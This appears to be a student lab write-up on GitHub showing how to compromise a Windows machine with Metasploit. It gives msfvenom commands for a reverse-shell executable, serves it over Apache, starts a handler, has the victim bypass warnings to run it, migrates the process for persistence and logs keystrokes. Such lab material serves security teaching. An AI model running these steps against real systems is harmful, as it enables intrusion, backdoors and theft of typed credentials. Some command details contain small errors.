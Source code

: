 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
![exp6_1](https://github.com/user-attachments/assets/2d594c6f-42da-4d42-a36b-28542ccc6d23)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![exp6_2](https://github.com/user-attachments/assets/65653a12-329f-43b3-9032-594694b0ddaf)

copy the fun.exe into the apache /var/www/html folder
![exp6_3](https://github.com/user-attachments/assets/ce07d36c-da61-489b-b938-16dbc0b462ca)

Start apache server sudo systemctl apache2 start
![exp6_4](https://github.com/user-attachments/assets/d8a2213f-6b0c-4f3f-bb80-58c9fa047177)

Check the status of apache2
![exp6_5](https://github.com/user-attachments/assets/f5ea45b6-f430-4284-aa91-936f59d1aed8)

Invoke msfconsole:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![exp6_6](https://github.com/user-attachments/assets/47ca61b4-94f2-4c12-8117-e4a530b973fe)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![exp6_7](https://github.com/user-attachments/assets/f6705ed8-bbb3-43dc-a822-cbe5f17435eb)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![exp6_8](https://github.com/user-attachments/assets/656d275c-175e-4460-8809-07b9de09b03c)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![exp6_9](https://github.com/user-attachments/assets/1db3c4e8-5954-4876-9630-82a5e52a1cf0)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![exp6_10](https://github.com/user-attachments/assets/1378325a-be9d-42e8-9afd-04c46c2d0231)

keyscan_dump Shows the keystrokes captured so far
![exp6_11](https://github.com/user-attachments/assets/269031dc-7a8d-43e0-aa51-11e62be30b25)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
